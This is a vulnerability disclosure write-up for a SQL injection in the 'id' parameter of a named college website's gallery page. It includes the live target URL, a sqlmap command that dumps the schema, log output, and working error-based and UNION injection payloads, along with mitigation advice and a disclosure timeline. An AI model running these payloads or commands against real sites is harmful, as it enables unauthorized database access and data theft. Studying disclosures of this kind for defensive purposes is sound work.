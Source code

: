 # 🔥 SQL Injection in John XXIII College Website (gallary.php)

## 💡 Summary

A **critical SQL Injection** vulnerability exists in the `gallary.php` endpoint of the official John XXIII College India website: https://www.johnxxiii.co.in/php/gallary.php?id=1




The `id` parameter fails to sanitize user input, allowing attackers to inject raw SQL statements and fully enumerate backend databases. This vulnerability has been confirmed using `sqlmap`, with four injection vectors successfully detected.

---

## 📍 Vulnerability Details

- **Vulnerable Parameter**: `id` (GET)
- **Affected URL**: `/php/gallary.php?id=`
- **Backend DBMS**: MySQL (Percona)
- **App Stack**: Apache + PHP 7.4.10
- **Injection Types**:
  - ✅ Boolean-based Blind
  - ✅ Error-based (FLOOR RAND)
  - ✅ Time-based Blind
  - ✅ UNION query (13 columns)

---

## 🧪 Proof of Concept (PoC)

### Using sqlmap to confirm and extract schema data:
```bash                            `
sqlmap -u "https://www.johnxxiii.co.in/php/gallary.php?id=1" -D information_schema --dump-all --batch

Output Snippet (from session logs):
[INFO] the back-end DBMS is MySQL
[INFO] fetching tables for database: 'information_schema'
[INFO] retrieved: 'QUERY_ID','int(20)'
...
[INFO] retrieved: 'SOURCE_FILE','varchar(20)'
[INFO] retrieved: 'SOURCE_LINE','int(20)'
...
[INFO] table 'information_schema.PROFILING' dumped to CSV file: /home/kali/.local/share/sqlmap/output/www.johnxxiii.co.in/dump/information_schema/PROFILING.csv

Confirmed SQL Injection Payloads:

id=1 OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x7162716a71, (SELECT (ELT(1=1,1))), 0x7162766a71, FLOOR(RAND(0)*2)) x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

id=1 UNION ALL SELECT NULL,NULL,...,CONCAT('qzvq', 'payload', 'qxpx'),NULL,NULL-- ```



🔥 Impact

This vulnerability allows:

    🛢️ Full MySQL database enumeration

    🔐 Access to schema-level metadata, including table/column names

    🚨 High risk of data exfiltration if exploited beyond schema

    ⚖️ Violation of common data protection practices (DPDP, GDPR)

🔒 Mitigation

    Sanitize inputs using parameterized queries

    Apply strict input validation on all GET/POST parameters

    Use a Web Application Firewall (WAF) to block automated injection patterns

    Disable unnecessary INFORMATION_SCHEMA exposure in production

📎 Disclosure Timeline
Date	Event
April 2025	Vulnerability discovered
May 2025	Full schema dump performed on information_schema via PoC
May 2025	Submitted to VulDB and CVE via MITRE
TBA	CVE ID to be assigned
🤝 Disclosure Statement

    This vulnerability was discovered and verified using only publicly available tools

    No unauthorized access to sensitive data or user accounts was attempted

    Disclosure performed responsibly by Soyam Arya (@hc4)

Video POC :  https://drive.google.com/file/d/1QpX82BUxWqg-lWbMUtnKwryZCqnkRmSk/view?usp=sharing

👨‍💻 Credits

    Researcher: Soyam Arya (hc4)

    GitHub: honestcorrupt

    LinkedIn: linkedin.com/in/soyam-arya-a90356312

    Contact: soyamarya96ethical@gmail.com


